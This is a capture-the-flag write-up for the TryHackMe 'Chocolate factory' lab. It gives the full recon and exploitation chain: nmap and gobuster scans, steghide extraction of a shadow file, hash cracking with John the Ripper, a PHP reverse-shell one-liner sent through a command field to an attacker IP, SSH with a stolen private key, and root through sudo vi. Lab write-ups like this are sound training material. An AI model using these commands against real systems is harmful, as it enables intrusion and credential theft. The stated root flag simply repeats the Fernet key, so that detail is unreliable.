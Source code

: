 # Room: Chocolate factory

## General Info
- **Room link:** [Chocolate factory](https://tryhackme.com/room/chocolatefactory)


## Description

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

## Provided Files / Links
- [x] Target Machine IP (10.10.147.150)

## Enumeration / Recon

- Port Enumeration:

`nmap -sV -sC -Pn 10.10.147.150 -T5`

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
```

- Directory Enumeration

`gobuster dir -u http://10.10.147.150 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -t 10`

```
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/.htaccess            (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1466]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/validate.php         (Status: 200) [Size: 93]
/.htm                 (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/wp-forum.phps        (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/index.php.bak        (Status: 200) [Size: 273]
/.htaccess.old        (Status: 403) [Size: 278]
/.htacess             (Status: 403) [Size: 278]
```

I then went to /home.php and notice that there was an input field named "command".

I typed 'ls' and got a `key_rev_key` response.

I accessed /key_rev_key and downloaded the key. Then I used strings to find plain text information:

`strings key_rev_key`: **VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.

---

I checked for anonymous access in the ftp port and it worked. I found a gum_room.jpg file. I didn't find anything relevant with strings, file, exiftool but I was able to extract a b64.txt file with steghide (`steghide extract -sf gum_room.jpg`).
The file is a base64 encoded text and when decoded, I got usernames and passwords:

```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9jpNx$khGlFdICJnr8R3JCjTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

I then used John the Ripper to crack the hash: `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt charlie_hash.txt` and found **cn7824**.

---

I went back to /home.php and tested for RCE with the following payload:

`php -r '$sock=fsockopen("10.9.2.55",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

I created a listener on my machine (`nc -nlvp 1337`) and was able to get a shell. I stabilized the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I found the user flag in charlie's home but I cannot read it yet. In his home directory, I found a 'teleport' file that contains his ssh private key.
I copied his private key in a id_rsa file in my machine and was able to login via ssh (`ssh -i id_rsa charlie@10.10.212.228`).

I was now able to read the user.txt flag: **flag{cd5509042371b34e4826e4838b522d2e}**.

---

I then checked for sudo privileges (`sudo -l`) and found:

```
(ALL : !root) NOPASSWD: /usr/bin/vi
```
I checked https://gtfobins.github.io/gtfobins/vi/ and found that I can get root access with: `sudo vi -c ':!/bin/sh' /dev/null`.

Now that I am root, I went to /root and found a root.py file:

```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

The message is encrypted with Fernet. The message is `gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ` and the key is `-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=`. 

I then got the root flag: **-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.
